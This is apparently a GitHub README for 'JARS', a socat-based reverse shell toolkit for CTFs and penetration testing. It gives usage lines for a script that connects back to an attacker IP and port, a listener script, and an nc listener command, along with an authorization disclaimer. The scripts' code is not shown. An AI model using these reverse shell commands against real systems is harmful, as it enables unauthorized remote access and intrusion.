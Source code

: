 # Just Another Reverse Shell (JARS)

![JARS Banner](https://img.shields.io/badge/Reverse%20Shell-Pretty%20and%20Simple-blueviolet?style=for-the-badge&logo=gnu-bash)

A minimal, pretty, and effective reverse shell toolkit using `socat` for both shell and listener. Perfect for CTFs, pentesting, and quick remote access scenarios.

---

## 🚀 Purpose

**JARS** provides a clean and reliable way to establish reverse shells using Bash and socat. It includes:
- `revShell.sh`: Initiates a reverse shell to a remote attacker.
- `revListener.sh`: Sets up a listener to catch incoming reverse shells, and can be used to enhance the shell experience (autocompletion, arrow keys, etc.) on servers with limited command support. 

---

## 🛠️ Requirements

- [socat](http://www.dest-unreach.org/socat/)
- Bash (Linux/macOS/WSL)

Install socat (Debian/Ubuntu):
```bash
sudo apt update && sudo apt install socat
```

---

## 📦 Files

- **revShell.sh**  
  _Usage:_
  ```bash
  ./revShell.sh [Remote Attacker IP] [Remote Attacker PORT]
  ```
  _Example:_
  ```bash
  ./revShell.sh 10.10.14.1 4444
  ```

- **revListener.sh**  
  _Usage:_
  ```bash
  ./revListener.sh [Listener PORT]
  ```
  _Example:_
  ```bash
  ./revListener.sh 4444
  ```

---

## ✨ Features
- Clean output and usage instructions
- Uses `socat` for stable, interactive shells
- Minimal dependencies
- Easy to use and modify

---

## ❓ When to Use JARS
This tool is especially useful when the target system:
- Does **not** have Python installed
- Has Python, but `pty` cannot be imported (so you can't upgrade shells easily)
- Lacks typical tab completion or cannot use `stty` to fix the shell
- Does **not** have a fully functional `nc` (Netcat) command, or only provides a limited client (e.g., BusyBox's older versions)
- Presents other restrictions that prevent you from getting a stable, interactive shell

By using socat, JARS helps you get a more interactive and reliable shell in these restrictive environments.

---

## 💡 Tips
- For Windows, use WSL or a Linux VM to run these scripts.
- Make scripts executable: `chmod +x revShell.sh revListener.sh`
- Always get proper authorization before using reverse shells!
- You can also use a simple Netcat listener as an alternative:
  ```bash
  nc -lnvp [PORT]
  ```
  However, note that Netcat listeners may not provide as smooth an experience (e.g., autocompletion, arrow keys) as the provided socat-based listener.

---

## ⚠️ Disclaimer
This project is for educational and authorized penetration testing purposes only. Do **not** use it on systems you do not own or have explicit permission to test.

---

## 📚 References
- [socat documentation](http://www.dest-unreach.org/socat/doc/socat.html)
- [Reverse Shell Cheat Sheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

---

Enjoy your interactive shells! 🐚✨
